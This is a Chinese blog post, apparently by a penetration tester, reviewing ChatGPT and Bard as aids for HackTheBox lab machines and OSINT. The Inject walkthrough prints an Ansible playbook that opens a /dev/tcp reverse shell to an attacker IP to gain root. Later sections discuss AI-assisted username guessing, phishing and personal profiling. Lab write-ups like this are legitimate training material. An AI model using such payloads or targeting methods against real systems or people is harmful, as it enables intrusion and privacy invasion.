







 ---
title: AI Enhanced Hacking - Support and OSINT
subtitle: everyone is victim,everyone is hacker.
date: 2023-05-01 12:00:00
categories: [wp, review]
tag: review,wp,hackthebox
---

## TL;DR

### 价值观

我始终是认为至少在目前阶段，人与AI的关系应该是以AI为人提供服务的。我偏向于将 AI 作为一种工具来为其他人或者自己的生产生活提供帮助和便利，甚至可以作为专业技能的老师传授新领域的技术。相反，我认为以一种“啊 你连这个都不知道，你个垃圾”的态度是极其不合适的。

### ChatGPT 在渗透测试的优势和局限

#### 优势

##### 1. ChatGPT**具有上下文理解**

拥有上下文理解能力对渗透测试颇为友好，因为和 CTF 不同的是，渗透中通常会带有强关联的环境上下文。很多时候可以进行反复的问答和修正，让 GPT 进行问题的回答，文本的生成，乃至是 payload 生成。在下文中，我会以 优势1 作为代词指代这点。

##### 2. **具有一定量的杂项知识**
这常常意味着，你问出的内容通常不太会超过他的理解范围，虽然 ChatGPT 本身不是网络安全知识的相关特化专精 AI，但是对于一些通用的工具使用工具报错等等，以及渗透常见场景都具有一定的背景知识，以至于不会发生一问三不知的情况。接下来的第二部分文本我会对具体的各种场景在其他人的研究基础上进行一定的扩展，并且以 优势2 作为代词指代这点。

##### 3. **具有理解和联想的能力**

> 与 优势1 不同的是，尽管对于 ChatGPT 的原理而言，也就是所谓的单词接龙，通过上文来生成下文或者下一个词语，这种联想能力和上下文理解是同一个东西

但是这里是人类普遍意义的联想和理解能力。我将会对此进行拓展，这种联想可以为渗透测试上下文进行指导，排错。在接下来的文本中，我会以 优势3 作为代词指代这点。

> 概念：
> 	**渗透测试情景/上下文**：在这里我尝试对这个概念进行定义。即，在渗透测试环境中，红队成员所处在的多维度位置共同决定，常见的网络位置（内网，外网）、权限位置（管理员，非管理，普通用户，特殊权限用户，机器/服务帐户，用户组，匿名/访客用户）。这些共同决定了渗透测试人员能看到的信息，能获取的信息和能更改的信息。

#### 局限

##### 1. **很好的守法意识**

通常而言这是一件好事，但是对于渗透测试从业人员，安全研究人员来说，他们往往徘徊在法律底线附近，对于 AI 具有的强大的法律界限意识，往往会对研究漏洞过程和渗透过程起到一定的阻碍作用。当然这点既不有利也不有害。

##### 2. **不具有经验知识**

它本身不具有实验结果一类的知识，以及实践实验并且化为知识的过程。对于他而言，仅仅是学习人们已有的实验结果并且已经转化为规律性的知识，文档，参考标准作为内容的输入和学习。正因此，同时这也是 ChatGPT 不容易取代人类的一种原因。对于已经有的一些经验知识，例如某种杀毒软件检测方法是什么，绕过是什么办法比较有效，或是暂时的通杀方法。ChatGPT 是无能为力的。这是很大的一点弊端。

>题外话，无法确定的是 微软最近推出的 Security Copilot 是否具有类似的缺陷，但是值得肯定的是，安全方向的 AI，可能会成为安全的下一个风口浪尖。

##### 3. 逻辑惯性

GPT 的底层原理是通过上下文来进行的单词接龙，计算概率。也就意味着 上下的内容会在很大程度上影响 GPT 生成的结果。因此，当 GPT 陷入某些思维的困境的时候。在表面对话中体现出来的就是，他会很大程度上会导致他陷入惯性思维，并且始终犯同一个错误无法改正，这点和优势 1 息息相关，并且作为缺陷展现。

我们很多时候需要避免和这种 GPT 进行对话，当发现 GPT 在一个错误中久久不能修复自己的行为时，请重置他更换一种问法。这对提问者的要求更上一层。

## Introducing AI into Hacking workflow (in HackTheBox seasonal machine)

Chatgpt 为国内外各行各业提供了不错的内容知识库和在线的辅助，很多安全研究员尝试过这个 AI 之后给出了诸如以下仓库的优质内容。
- [PentestGPT](https://github.com/GreyDGL/PentestGPT) - 自动化 AI 渗透工具 类似 AutoGPT 的原理
- [GPT Security](https://github.com/mo-xiaoxi/GPTSecurity/tree/main/docs) - 一项的综合性文档 或是 index 其中罗列综合了 git prompt  security tools 相关的内容 <details> 有没有可能，这篇小文章是不是能被索引？</details>
- [Hacking human with AI](https://media.defcon.org/DEF%20CON%2029/DEF%20CON%2029%20presentations/Eugene%20Lim%20Glenice%20Tan%20Tan%20Kee%20Hock%20-%20Hacking%20Humans%20with%20AI%20as%20a%20Service.pdf) - Defcon 29 一个关于 ChatGPT 实施钓鱼服务的演讲

> \[题外话\]但是熟悉我和我文章的人知道，如果有什么别人做了的东西，我只会去复现或者去偷学，我是不会特意多写一篇文章谈论别人写过的内容的。

### 渗透测试辅助

在渗透测试的各个环节中。 AI 可以以如下的形式为测试人员提供帮助。

#### 细节甄别与文档提示

>对于细节的熟悉和强大的联想能力为渗透测试人员提供相对于文档和工具而言的强大辅助。
> 
> 本点基于 优势3 和 优势2

渗透测试对于测试人员的专业知识要求可能不是很高，但是对于所处在的渗透测试的环境快速理解和正确执行下一步作战任务具有相当高的要求。 

而现代服务器 随意地运维 文件混乱摆放 也是非常常见的现象，测试人员是很高概率见到奇怪的文件或者配置内容，自定义传输协议（诸如 自定义 RPC）。但是往往这些文件和协议都具有一定的微小特征，尤其是一些很明显的关键字或是特定的格式。在搜索引擎无法解决类似的文件格式和协议内容时， GPT 可以作为辅助的提示工具，帮助你重新提炼类似的关键字或是特定的格式，当然这部分只能作为辅助功能，AI 并不具有真实分析从未见过的协议和私有自定义的协议格式。

这里以 inject 靶机为例子 

在接触这个机器之前，我其实对 ansible 认知其实很少，基本没有见过这个文件和类似的使用。

> Ansible是一种自动化工具，它使用YAML语言定义的剧本（playbook）来配置管理，具有可读性强、易于维护和版本控制的优点。它基于模块化设计，可以使用现成的模块完成常见系统管理任务，也可以编写自己的模块。Ansible可以通过SSH连接到大多数主流操作系统和云平台，使其广泛用于自动化IT基础设施和应用程序的部署、管理和操作。

通过自己识别和询问 GPT 



可以很轻松的发现这是 Ansible 配置的工作 并且详细的解释了这份 yaml 文件的配置信息

由于我们在枚举过程中发现这个文件所在的目录会被一起被 root 用户以定时任务的形式执行，并且我们所在的组对文件夹有写入权限。在没有或者不清楚 Ansible 配置的情况下，我们可以继续询问 AI 让他帮我们编写 具有命令执行的 payload。



可以继续询问类似



这里提到了 shell 模块，可能对我们的 revshell payload 更为友好，我们继续寻问引导他生成例子，他生成的 payload 如下。



经过修改后 我们的 payload 如下

```ansible
- hosts: localhost
  tasks:
  - name: Execute command on remote host
    shell: exec 5<>/dev/tcp/[MY-IP]/9090;cat <&5 | while read line; do $line 2>&5 >&5; done
```

把 Payload.yml 直接放进文件夹后提权。

AI 短短几分钟就解决了我们的需求，而常规情况下我们需要先了解 Ansible 是什么，了解完基本的语法后，了解 shell 执行模块，谷歌搜索可能要多两次才能解决问题。

AI 掌握了怎么样去询问，怎么样去设置合理的情景去引导 AI 他进行回答即可。

#### 报错提示和故障定位

> 对于报错的熟悉和知识库的能力快速除错定位故障。
> 
> 本点基于优势1 优势2 局限2

和开发的伙伴进行交流的过程中，开发体会到 AI 对于 debug 具有一定的帮助，但是由于缺少经验知识的存在使得 GPT 在这里的运用仍旧有一定的局限。

同理在这里

例如 coder.htb 中 ，我错误的在最后提权阶段使用了 Certipy 4.0.0 的 Certipy 得到报错



> Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_BAD_INTEGRITY(Integrity check on decrypted field failed)

当然这个问题的解决方案其实就是更新 Certipy 的版本到 最新 4.4.0 。

这个例子我当时询问了 GPT。

询问多次后补充如何获取 administrator.pfx 的指令过后，成功得到了在答案结尾 GPT-4 建议我检查 Certipy 版本的结果，而 GPT-3.5 返回的建议是检查 Kerberos Client 版本。

> 当然安装到低版本是因为 certipy-ad 的版本还在 4.0.0 

但是这个回答的错误概率比较大，在 GPT 4 中较难复现。尽管 GPT 具有一定的知识库和排除障碍能力，但是还是很需要具有经验的人去进行进一步引导和提问，并且提供详细的上下文报错。

同时我也尝试了 bard，这里附上 bard 的结果。





bard 给出的错误排除方案确实是非常详细。

#### 上下文辅助和问答形式咨询

> 渗透测试上下文辅助和问答形式的咨询 持续的提供目标环境上下文和内容辅助 GPT 得出答案 
> 
> 本点基于 优势1 优势3 局限3

在前面的多次对话的截图中，我们可以清楚的发现，我们对 GPT 的回复是可以做一定程度控制的。这种控制是通常而言基于**命令**以及**问题**的**引导**。这种控制是相辅相成的。

当然，当遇到 GPT 答非所问，或者不符合现实情况的时候，第一步我们需要重新考虑是否我们有所忽略，如果 GPT 给出了不可能的情况，我们需要再次进行对话来补充自己的问题和自己的已知信息，辅助他进行再次的情景判断。在不断补充信息 不断给予命令要求或者请求他进行某些 payload 处理和生成。如果遇到了局限 3，可以考虑重置相关对话。

当然，这些步骤中，需要对关键信息进行脱敏处理，以确保自身的任务和数据不会对 OpenAI 等 AI 厂商公开。

### 社会工程学辅助

#### 基于个人信息联想的针对性社会工程学攻击

非常危险的是，已经有相当多的类似，站点用户名猜测，针对性钓鱼内容生成，针对习惯和个人信息的密码字典生成，猜测密码使用习惯

#### 信息联想和钓鱼

这里有相当多的文章和实验代码公布在网络上了，包括 [Hacking human with AI](https://media.defcon.org/DEF%20CON%2029/DEF%20CON%2029%20presentations/Eugene%20Lim%20Glenice%20Tan%20Tan%20Kee%20Hock%20-%20Hacking%20Humans%20with%20AI%20as%20a%20Service.pdf) - Defcon 29 的议题，都有所提及。这里我不再进行赘述只作为指路。

#### 个人信息联想

这里是最近我在 Hackthebox 某个靶机的 ssh 用户名猜测中运用 GPT 得到了意外的效果。

machine 中的 web 服务暴露了管理员的个人名称为 Thomas Keller 并且通过 sql 注入拿到了密码


上面都是很有可能使用的用户名甚至有可能是可能的密码。实际结果是 TKeller 

全部转化为小写之后 我成功登陆了该管理的 ssh

基于此案例我尝试注入 一些 prompt 进行规范化输出 如 命令其整理为 json 数组，并且通过这个手段增强一些 OSINT 工具的用户名联想和破解。

#### 个人信息侧写 AI 辅助刑侦

由于 GPT 的策略我无法过多的尝试输入更多的个人信息，并且让他判断一些个人的使用习惯和个人的形象。他拒绝了信息的输入。

但是我认为这可能是未来的一个发展方向，并且目前而言没有发现类似的文章和类似的使用方法。

# 后记

这篇文章被我咕咕了很久才写完。最近一直没有什么精力写些东西。